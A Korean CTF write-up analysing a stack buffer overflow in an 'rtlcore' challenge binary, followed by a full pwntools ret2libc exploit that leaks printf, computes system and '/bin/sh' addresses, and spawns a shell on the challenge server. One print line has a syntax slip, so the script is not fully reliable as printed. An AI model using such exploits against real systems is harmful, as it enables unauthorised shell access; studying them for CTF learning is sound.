 `dlsym` 함수를 이용해 `pritnf` 함수의 주소를 출력한다.

`dlsym` 은 라이브러리 내 symbol(함수 또는 전역변수)의 위치에 대한 포인터를 얻는다.

이후 `read` 함수를 통해 `buf` 변수에 `100bytes`를 입력받는다.

여기서 `buf` 변수는 `0x3E`, 62bytes의 길이를 가지므로 SFP까지 더해도 66bytes 뿐이다. 따라서 `BOF`를 시도해 볼 수 있으며 

위에서 얻은 `printf` 함수를 통해 `system` 함수의 주소와 `binsh` 문자열 주소를 얻어서 익스를 해보도록 한다.


# Exploit
---
```python
from pwn import *

context.log_level = 'debug'

p = remote('ctf.j0n9hyun.xyz', 3015)
#p = process('./rtlcore')
e = ELF('./rtlcore')
libc = ELF('./libc.so.6')

# bypass the authentication
payload = ''
payload += p32(0x2691f021) * 4
payload += p32(0x2691f023)

p.recvuntil('Passcode')
p.sendline(payload)

# get the printf_addr
p.recvuntil('0x')
printf_addr = int(p.recv(8), 16)

# get some address for exploit
libc_base = printf_addr - libc.symbols['printf']
system_addr = libc_base + libc.symbols['system']
binsh_addr = libc_base + libc.search('/bin/sh').next()

log.info('libc_base : ' + str(hex(libc_base)))
log.info('system_addr : ' + str(hex(system_addr))
log.info('binsh_addr : ' + str(hex(binsh_addr)))

# exploit
payload = ''
payload += 'A' * 66
payload += p32(system_addr)
payload += 'A' * 4
payload += p32(binsh_addr)

p.sendline(payload)

p.interactive()
```
